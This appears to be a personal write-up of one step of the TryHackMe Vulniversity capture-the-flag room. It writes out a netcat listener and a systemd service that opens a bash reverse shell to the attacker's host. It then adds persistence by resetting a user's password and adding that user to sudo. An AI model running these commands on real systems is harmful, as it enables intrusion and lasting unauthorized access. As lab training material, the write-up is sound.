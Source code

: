 # TryHackMe: Vulniversity Notes  

<br />

## Step 5
For step 5 I decided to take it one step further and create another shell rather than use systemctl to read the /root/root.txt

1. start netcat on your box
> ```
> nc -tlnvp 6666
> ```

2. back on the compromised host, set up service to create a shell back to our netcat listener
* A good reverse shell resource: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
> ```
> shell=$(mktemp).service
> echo '[Service]
> Type=oneshot
> ExecStart=/bin/bash -c "bash -i >& /dev/tcp/<your ip>/<your port> 0>&1"
> [Install]
> WantedBy=multi-user.target' > $shell
> systemctl link $shell
> systemctl enable --now $shell
> ```

3. I wanted some persistence so looked for a user in /etc/passwd and confirmed ssh
> ```
> cat /etc/passwd
> passwd <user>
> usermod -aG sudo <user>
> systemctl status sshd.service
> ```
 